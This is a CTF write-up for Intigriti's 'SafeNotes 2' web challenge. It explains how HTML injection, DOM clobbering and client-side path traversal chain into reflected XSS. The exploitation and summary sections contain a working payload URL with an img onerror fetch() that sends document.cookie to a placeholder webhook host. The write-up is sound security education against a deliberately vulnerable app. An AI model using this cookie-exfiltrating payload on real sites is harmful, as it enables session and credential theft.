






## Intro

I have played this CTF on my own, focusing on the web challenges and managed to solve 4 out of the 9 web challenges available :D



I was very close to solving `Greetings` too, but in the end I was unable to get it on time. In this writeup, I will be showcasing the solution to the most interesting one, in my opinion, among the ones I solved. Shout out to all of the authors, with a special mention to [CryptoCat](https://www.youtube.com/@_CryptoCat), for all the work they have done and for the awesome challenges.

## Description

> After receiving numerous bug bounty reports through the intigriti platform, the developer has implemented some security fixes! They are inviting bug hunters to have another go, so do your thing 🫡

> https://ctfd-status.ctf.intigriti.io/safenotes2

> created by [CryptoCat](https://www.youtube.com/@_CryptoCat)

## Overview

As the challenge name says, it is the second part of another one. The first was presented as the Intigriti monthly challenge in August 2024 at Defcon. I am not going to go into detail with this one, but the summarised path of exploitation was abusing a Client-Side Path Traversal (CSPT) to get XSS and leak the cookie containing the flag. Further information can be found in [this writeup](https://bugology.intigriti.io/intigriti-monthly-challenges/0824). You might guess that the path to get the flag will be similar.

The challenge consists of a web application that stores notes. After creating an account, users can either create, view and report notes for the admin to view them. There is also a "contact" option, however, when rendering the page we will get an `Internal Server Error`, we will get to this later.



## Deeper analysis

For this challenge, we are given its source code. The challenge's web application is written in Python using Flask and relies on a backend database and on a bot. The bot will load the flag into a cookie and visit the note we report. The database uses PostgreSQL and will store the following data:

```py
class User(db.Model, UserMixin):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(150), unique=True, nullable=False)
    password = db.Column(db.String(150), nullable=False)

class Note(db.Model):
    id = db.Column(db.String(36), primary_key=True, default=lambda: str(uuid.uuid4()))
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    content = db.Column(db.Text, nullable=False)
    user = db.relationship('User', backref=db.backref('notes', lazy=True))

class LogEntry(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    note_id = db.Column(db.String(36), db.ForeignKey('note.id'), nullable=False)
    username = db.Column(db.String(150), nullable=True)
    content = db.Column(db.Text, nullable=False)
    timestamp = db.Column(db.DateTime, default=datetime.utcnow)

    note = db.relationship('Note', backref=db.backref('logs', lazy=True))
```

### Create note

When a user creates a note, the following endpoint will be called:

```python
@main.route('/api/notes/store', methods=['POST'])
@login_required
def store():
    data = request.get_json()
    content = data.get('content')

    # Since we removed the dangerous "debug" field, bleach is no longer needed - DOMPurify should be enough

    note = Note.query.filter_by(user_id=current_user.id).first()
    if note:
        note.content = content
    else:
        note = Note(user_id=current_user.id, content=content)
        db.session.add(note)

    db.session.commit()
    return jsonify({'success': 'Note stored', 'note_id': note.id})
```

Basically, it will either insert the user note in the database in case it is new, or update the contents of the existing one. A key point here is that, in the first version of the challenge, `bleach` was used to sanitize the contents of the note before storing it in the database. However, this feature has been removed in this version, meaning **we can store notes with dangerous HTML tags** in their content.

### View note

The interesting parts of the note viewing mechanism are in the client side, in particular in the javascript of `view.html`. We can specify a note ID and when clicking `View Note`, it will pass the note ID in a `note` URL parameter and load the contents of the note.

For example:

```
http://localhost/view?note=b0dbd248-8723-497d-a2e9-50829258170e
```



What this is doing in the background is the following:

1. Validate that the note is a valid UUID:

```js
function isValidUUID(noteId) {
    // Fixed regex so note ID must be specified as expected
    const uuidRegex =
        /^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i;
    return uuidRegex.test(noteId);
}

function validateAndFetchNote(noteId) {
    if (noteId && isValidUUID(noteId.trim())) {
        history.pushState(null, "", "?note=" + noteId);
        fetchNoteById(noteId);
    } else {
        showFlashMessage(
            "Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.",
            "danger"
        );
    }
}
```

2. Send a request to the API to fetch the note:

```js
function fetchNoteById(noteId) {
        // Checking "includes" wasn't sufficient, we need to strip ../ *after* we URL decode
        const decodedNoteId = decodeURIComponent(noteId);
        const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');
        fetch("/api/notes/fetch/" + sanitizedNoteId, {
            method: "GET",
            headers: {
                "X-CSRFToken": csrf_token,
            },
        })
            .then((response) => response.json())
            .then((data) => {
                if (data.content) {
                    document.getElementById("note-content").innerHTML =
                        DOMPurify.sanitize(data.content);
                    document.getElementById("note-content-section").style.display = "block";
                    showFlashMessage("Note loaded successfully!", "success");
                    // We've seen suspicious activity on this endpoint, let's log some data for review
                    logNoteAccess(sanitizedNoteId, data.content);
                } else if (data.error) {
                    showFlashMessage("Error: " + data.error, "danger");
                } else {
                    showFlashMessage("Note doesn't exist.", "info");
                }
                // Removed the data.debug section, it was vulnerable to XSS!
            });
    }
```

It also URL-decodes the note ID to then replace all the occurrences of `../` to avoid path traversal.

3. Load the contents of the note and sanitize them with the latest DOMPurify.

4. Log the access to the note by calling the API, which will create a `LogEntry` in the database with the contents of the note, the note ID and our username.

```js
function logNoteAccess(noteId, content) {
    // Read the current username, maybe we need to ban them?
    const currentUsername = document.getElementById("username").innerText;
    const username = currentUsername || urlParams.get("name");

    // Just in case, it seems like people can do anything with the client-side!!
    const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

    fetch("/api/notes/log/" + sanitizedUsername, {
        method: "POST",
        headers: {
            "Content-Type": "application/json",
            "X-CSRFToken": csrf_token,
        },
        body: JSON.stringify({
            name: username,
            note_id: noteId,
            content: content
        }),
    })
        .then(response => response.json())
        .then(data => {
            // Does the log entry data look OK?
            document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
            document.getElementById("debug-content-section").style.display = "block";
        })
        .catch(error => console.error("Logging failed:", error));

}
```

### Report note

We must send a valid URL with the note we want to report.

```python
@main.route('/report', methods=['GET', 'POST'])
@login_required
def report():
    form = ReportForm()
    if form.validate_on_submit():
        note_url = form.note_url.data
        parsed_url = urlparse(note_url)
        base_url_parsed = urlparse(BASE_URL)

        if not parsed_url.scheme.startswith('http'):
            flash('URL must begin with http(s)://', 'danger')
        elif parsed_url.netloc == base_url_parsed.netloc and parsed_url.path == '/view' and 'note=' in parsed_url.query:
            note_id = parsed_url.query[-36:]
            try:
                if uuid.UUID(note_id):
                    with reporting_lock:
                        if current_user.id in reporting_users:
                            flash(
                                'You already have a report in progress. Please respect our moderation capabilities.', 'danger')
                        else:
                            reporting_users.add(current_user.id)
                            threading.Thread(target=call_bot, args=(
                                note_url, current_user.id)).start()
                            flash('Note reported successfully', 'success')
            except ValueError:
                flash(
                    'Invalid note ID! Example format: 12345678-abcd-1234-5678-abc123def456', 'danger')
        else:
            logger.warning(f"Invalid URL provided: {note_url}")
            flash('Please provide a valid note URL, e.g. ' + BASE_URL +
                  '/view?note=12345678-abcd-1234-5678-abc123def456', 'danger')

        return redirect(url_for('main.report'))
```

As you can see, the last 36 chars of our URL **must be a valid UUIDv4**.

### Contact

The rendering of this endpoint is broken:

```python
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200

        username = request.form.get('name')
        content = request.form.get('content')

        if not username or not content:
            flash('Please provide both your name and message.', 'danger')
            return redirect(url_for('main.contact'))

        return render_template('contact.html', msg=f'Thank you for your message, {username}. We will be in touch!')

    return render_template('contact.html', msg='Feel free to reach out to us using the form below. We would love to hear from you!')
```

This is due to the fact that the template `contact.html` uses a form object but it is not provided. Just out of curiosity, to fix this, a `ContactForm` object should be created and passed to both `render_template` calls like this:

```python
form = ContactForm()
# ...
return render_template('contact.html', msg=f'Thank you for your message, {username}. We will be in touch!', form=form)
```

However, I will leave it as it is because we can still interact with the endpoint via POST request. If we send a JSON data to the endpoint with a `name` and a `content` parameter, we will receive a JSON reply with a message:

```python
return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200
```

Therefore avoiding the error with the template rendering.

## Exploitation

### HTML Injection

First of all, we already have HTML injection when creating notes. The contents of our note will be stored in the database without being sanitized and, although DOMPurify will block XSS by deleting the dangerous tags, we can still inject some into the DOM.

Note content:
```html
<b>html</b><br>injection
```

Result:



### Client-Side Path Traversal (CSPT)

As the flag is in the cookie of the bot that views a note we choose, we know that we have to get XSS. To achieve this, my first step was looking for **CSPT** in `view.html`, as this was also present in the first part of the challenge. In this HTML template, we have two different calls to the API:

- `/api/notes/fetch/<noteId>`
- `/api/notes/log/<username>`

However, the call to fetch the notes sanitizes the note ID correctly as the RegEx does not let us input other thing rather than a valid UUIDv4. Let's focuse on the user call.

To get our username, the javascript does this suspicious thing:

```js
const currentUsername = document.getElementById("username").innerText;
const username = currentUsername || urlParams.get("name");

const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');
```

It first gets it from the DOM element with id "username", and in case it is null it uses the one in the URL parameters. Once selected, it URL-decodes it and **replaces** `../` with an empty string. The security flaw here is that the replace function is not recursive, meaning that if I have a username like `....//`, the result of the replace will be `../` therefore allowing **CSPT**.

You may think that now we should register a new user with the payload to trigger CSPT. However, this is not possible because the username's length must be between 2 and 20 characters. Instead, we know we can specify a username with a URL parameter in case the one in the DOM is empty. Again, we cannot create an empty username due to the length restriction. Despite all of this, what we can do is **modify the DOM** thanks to the HTML injection in the note creation. So, if we create a note with an HTML tag allowed by DOMPurify with "username" as identifier, like:

```html
<span id="username"></span>
```

We will abuse **DOM clobbering** and javascript will think that **the username is empty**, therefore taking the one passed as URL parameter.

### XSS

In `views.html`, we can see that the response to the fetch is being inserted as a stringified JSON **directly into the HTML of the page**.

```js
fetch("/api/notes/log/" + sanitizedUsername, {
        method: "POST",
        headers: {
            "Content-Type": "application/json",
            "X-CSRFToken": csrf_token,
        },
        body: JSON.stringify({
            name: username,
            note_id: noteId,
            content: content
        }),
    })
        .then(response => response.json())
        .then(data => {
            // Does the log entry data look OK?
            document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
            document.getElementById("debug-content-section").style.display = "block";
        })
        .catch(error => console.error("Logging failed:", error));
```

This is the XSS entry point. The probem though is that the `debug-content` HTML elements of the view page are commented out!

```html
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
```

But we can sort it out again thanks to the HTML injection, by creating a note with those elements:

```html
<span id="username"></span><div id="debug-content-section" style="display:none;" class="note-panel"><h3>Debug Information</h3><div id="debug-content" class="note-content"></div></div>
```

Until now, we are able to inject some HTML tags in the notes, perform CSPT to an endpoint we want and know that we can inject dangerous code in the HTML of the page if we can somehow reflect our input in the response of the CSPT. So, to finish the exploit, we need an endpoint that **reflects our input** to inject it.

This is where the (apparently useless) `/contact` endpoint comes into play. If we recap a bit, this route received a POST request with JSON data containing name and content and it replied with a JSON containing a message, **reflecting the username**. To first reach this endpoint, we shall create a note with the HTML tags above. Then, when visiting `/view?note=<uuid>`, we can add `/view?name=....//....//....//contact&note=<uuid>` to make the POST request go to the contact endpoint.



Great! Now we need the username to contain an XSS payload to leak the cookies. To do this without affecting the CSPT, we can append it either as a URL parameter (`?foo=<payload>`) or a fragment (`#<payload>`). In my case, I chose the second option.

By reporting this URL, we can trigger XSS in the bot and get the flag!

```
https://<CHALL_URL>/view?name=....//....//....//contact%23%3Cimg%20src=x%20onerror=fetch(`https://<WEBHOOK>/`%2bdocument.cookie)%20/%3E&note=<NOTE_UUID>
```

> Note: The URL encoding is very important as otherwise it will fail. The note ID parameter must be the last one, as the backend checks for that.



## Summary (TLDR)

1. Register an account and log in.
2. Create a note with the following content:
```html
<span id="username"></span><div id="debug-content-section" style="display:none;" class="note-panel"><h3>Debug Information</h3><div id="debug-content" class="note-content"></div></div>
```
That will:

- Use DOM Clobbering to force `view.html` to take the username from the URL parameter.
- Add the debug elements to the DOM.

3. Send to the bot the following URL:

```
https://<CHALL_URL>/view?name=....//....//....//contact%23%3Cimg%20src=x%20onerror=fetch(`https://<WEBHOOK>/`%2bdocument.cookie)%20/%3E&note=<NOTE_UUID>
```

With our created note UUID and our webhook to:
- Trigger the CSPT in our name parameter to make a call to `/contact`.
- Reflect our username with the XSS payload in the debug elements.
- Trigger XSS and leak the cookie.
